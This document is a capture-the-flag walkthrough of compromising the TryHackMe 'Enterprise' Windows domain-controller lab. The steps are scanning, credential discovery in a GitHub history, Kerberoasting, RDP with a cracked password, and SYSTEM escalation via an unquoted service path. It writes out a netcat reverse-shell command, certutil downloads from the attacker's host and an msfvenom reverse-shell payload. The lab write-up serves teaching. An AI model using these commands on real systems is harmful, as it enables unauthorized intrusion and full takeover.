# THM - Enterprise

#### Ip: 10.10.118.162
#### Name: Enterprise
#### Rating: Hard

----------------------------------------------------------------------


```text
You just landed in an internal network. You scan the network and there's only the Domain Controller...
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Enterprise]
└─$ sudo nmap -p-  --min-rate 10000 10.10.118.162
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-04 08:30 CDT
Warning: 10.10.118.162 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.118.162
Host is up (0.13s latency).
Not shown: 41490 closed tcp ports (reset), 24023 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
7990/tcp  open  unknown
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49675/tcp open  unknown
49704/tcp open  unknown
49708/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 49.61 seconds
```

Lets also scan the ports with `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Enterprise]
└─$ sudo nmap -sC -sV -T4 10.10.118.162 -p 53,80,135,139,445,464,636,3268,3389,5357,5985,7990,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-04 08:33 CDT
Nmap scan report for 10.10.118.162
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LAB-ENTERPRISE
|   NetBIOS_Domain_Name: LAB-ENTERPRISE
|   NetBIOS_Computer_Name: LAB-DC
|   DNS_Domain_Name: LAB.ENTERPRISE.THM
|   DNS_Computer_Name: LAB-DC.LAB.ENTERPRISE.THM
|   DNS_Tree_Name: ENTERPRISE.THM
|   Product_Version: 10.0.17763
|_  System_Time: 2023-08-04T13:33:40+00:00
| ssl-cert: Subject: commonName=LAB-DC.LAB.ENTERPRISE.THM
| Not valid before: 2023-08-03T13:27:44
|_Not valid after:  2024-02-02T13:27:44
|_ssl-date: 2023-08-04T13:33:47+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7990/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Log in to continue - Log in with Atlassian account
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-08-04T13:33:42
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.41 seconds
```

Lets add LAB.ENTERPRISE.THM to our `/etc/hosts` file before we get started.

If port 88 (kerberos) is open on a target, one of the first things I like to do is start a 'userenum' scan using Kerbrute, in hopes I can discover some usernames or potentially even drop some hashes:

```text
┌──(ryan㉿kali)-[~/…/AD/kerberos/kerbrute/dist]
└─$ ./kerbrute_linux_arm64  userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d lab.enterprise.thm --dc 10.10.118.162
```

While this is running we can go ahead and check out some of the other ports.

Reviewing the Nmap results we see an Atlassian login page on port 7990, lets check that out.



Interesting.. there is a note about the company moving over to GitHub. Heading out to Google I search for enterprise-thm github and find this page:



Clicking into 'People' I find a page for nik-enterprise-dev who has a public repo mgmtScript.ps1 with a SystemInfo.ps1 script in it. 

Clicking into the script, I'm not really seeing much of interest to us.



But if I click on the 'History' button, I can reveiew changes made to the script over time.



Whoops! Looks like Nik hardcoded his credentials when his first committed the script.


Looking back at our kerbrute findings we can confirm that Nik is a valid user on the domain:



Armed with these credentials lets use Impacket-GetUserSPNS:

```text
┌──(ryan㉿kali)-[~/THM/Enterprise]
└─$ impacket-GetUserSPNs -dc-ip 10.10.118.162 -request LAB.ENTERPRISE.THM/nik
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
```



Cool, we've retrieved a hash for user bitbucket. Lets add this to a file called hash.txt and use JohnTheRipper to crack it:



John was able to crack the password in just a couple of seconds.

Now with these new credentials I can RDP onto the machine:

```text
┌──(ryan㉿kali)-[~/THM/Enterprise]
└─$ xfreerdp /u:bitbucket /p:littleredbucket /w:1275 /h:650 /v:10.10.118.162:3389 /cert:ignore
```

And grab the user.txt flag:



### Privilege Escalation

Because I'd rather be in the terminal rather than working over RDP (which can be slow, and buggy at times) I'll transfer over a copy of nc.exe to the target using Certutil:



And then run: `C:\Users\bitbucket>nc.exe -e cmd.exe 10.6.61.45 443`

Which gets me a shell back on my listener:

```text
┌──(ryan㉿kali)-[~/THM]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.118.162] 51076
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\bitbucket>hostname
hostname
LAB-DC

C:\Users\bitbucket>whoami
whoami
lab-enterprise\bitbucket
```

This step is not required at all, and some people would actually prefer to stay working in RDP, this is just my personal preference.

From here I'll go ahead and grab winPEAS from my machine and transfer it to the target:

```text
C:\Users\bitbucket\Documents>certutil -urlcache -split -f "http://10.6.61.45/winPEASx64.exe"
certutil -urlcache -split -f "http://10.6.61.45/winPEASx64.exe"
****  Online  ****
  000000  ...
  1d8c00
CertUtil: -URLCache command completed successfully.

C:\Users\bitbucket\Documents>.\winPEASx64.exe
```

Winpeas is a phenomenal tool that can be a game-changer if you get stuck trying to escalate privileges. The only down side is that it outputs so much information, it can be easy to overlook things. 

WinPEAS finds an unquoted service path, which we may be able to abuse:



Because this service is currently stopped, we'll need to double check we have the permissions to restart it after we craft our exploit:

```text
C:\Users\bitbucket\Documents>sc.exe sdshow zerotieroneservice
sc.exe sdshow zerotieroneservice

D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;RPWPDTRC;;;S-1-5-21-2168718921-3906202695-65158103-1106)(A;;CCLCSWLOCRRC;;;IU)
```

RP is Windows-speak for the ability to restart the service.

Cool, so from here we should be able to create a reverse shell called ZeroTier.exe, which will be executed with elevated permissions when the service is restarted:

Lets use msfvenom to craft our shell:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.61.45 LPORT=8888 -f exe -o ZeroTier.exe
```

We can use Certutil to transfer the file over and confirm it's where it needs to be:



Now with a listener going on our attack machine we can restart the service and catch a shell back:



Cool, we are nt authority\system! Lets grab that final root.txt flag:



Thanks for following along!

-Ryan

--------------------------------------------
